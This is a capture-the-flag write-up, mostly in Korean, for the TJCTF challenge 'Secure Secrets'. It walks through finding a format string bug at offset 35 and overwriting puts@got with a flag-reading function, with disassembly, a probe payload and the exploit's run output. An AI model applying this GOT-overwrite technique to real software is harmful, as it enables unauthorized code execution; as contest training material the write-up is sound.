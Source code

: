 `#FSB`
# Secure Secrets
110 points Binary Exploitation - Unsolved (105 solves)
Written by evanyeyeye

> I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?  
>  
> nc problem1.tjctf.org 8008  

```
345a9d40be02e662466031e5768fdd27  secure
```

## FSB
```
.text:080488EC                 push    [ebp+var_2C]    ; format
.text:080488EF                 call    _printf

  printf(a1);
```
바이너리를 분석해보면 printf 의 인자로 사용자가 입력할 수 있는 message 변수가 들어간다.  

```
> AAAA%35$p
AAAA0x41414141
```
실행시켜서 입출력을 비교해보면  
확실히 포맷스트링 버그가 존재하고 offset 35.  


## 시나리오
포맷스트링 버그로 `puts@got` 를  
`get_secret()`으로 덮어씌웁니다.  

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
```
  printf(a1);
  printf("\n");
  puts("Tada! Hope you liked our service!");
```
`puts@got`를 선정한 이유는  
printf 뒤에 puts 가 쓰였기 때문입니다.  

```
int get_secret()
{
  FILE *v1; // [sp+8h] [bp-50h]@1
  char v2; // [sp+Ch] [bp-4Ch]@3
  int v3; // [sp+4Ch] [bp-Ch]@1

  v3 = *MK_FP(__GS__, 20);
  v1 = fopen("flag.txt", "r");
  if ( v1 )
  {
    __isoc99_fscanf(v1, "%s", &v2);
    printf("Here is your secret: %s\n", &v2);
  }
  else
  {
    puts("Secret could not be accessed.");
  }
  return *MK_FP(__GS__, 20) ^ v3;
}
```
`get_secret()` 함수는 `flag.txt` 를 읽어주는 함수입니다.  

## 끝
```
# python solve.py
[+] Opening connection to problem1.tjctf.org on port 8008: Done
[+] Receiving all data: Done (327B)
[*] Closed connection to problem1.tjctf.org port 8008

(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0  L                                                                                                                                                                                                                                               \x87   h

Here is your secret: tjctf{n1c3_j0b_y0u_r34lly_GOT_m3_600d}

```
